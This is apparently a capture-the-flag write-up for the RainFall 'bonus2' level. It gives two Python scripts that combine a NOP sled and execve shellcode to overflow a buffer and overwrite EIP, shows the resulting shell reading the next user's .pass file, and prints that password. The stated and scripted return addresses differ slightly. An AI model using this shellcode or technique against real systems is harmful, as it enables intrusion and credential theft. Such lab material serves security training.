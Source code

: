 So we have a guess that the address of `dest` is `0xbffff5b0 to 0xbffff5a0`, we fill unknown padding with **NOP** `\x90` instruction which is do nothing just skiping until to start of our **shellcode**.

The payload looks like:

```
    |\x90\x90\x90....\x90\x90<begin-of-shell-code|rest-of-shell-code>|<address-of-dest>|
    ^             ^                              ^ last 23B of shell ^  point-to-2
    1             2
```

`1`: actual start of **dest**, probability `0xbffff5b0`.
`2`: the address of overridden **EIP** point back to shellcode, is our case we set it to `0xbffff5a0` -> `\xa0\xf5\xff\xbf`.


So first argument payload is:

```
bonus2@RainFall:~$ cat buff1.py
shell = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e'

nop_len = 40 - len(shell)

buff = '\x90' * nop_len + shell

print buff,
```

the second one is:

```
bonus2@RainFall:~$ cat buff2.py
shell = '\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80'

shell_addr = '\xa0\xf6\xff\xbf'

padding_len = 23 - len(shell)

buff = shell + 'a' * padding_len + shell_addr

print buff,
```


Output:

```
bonus2@RainFall:~$ ./bonus2 `python2 buff1.py` `python2 buff2.py`
Goedemiddag! 1Ph//shh/binPS1Ұ
                             ̀11aaa
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

It works, see you on the next challenge.
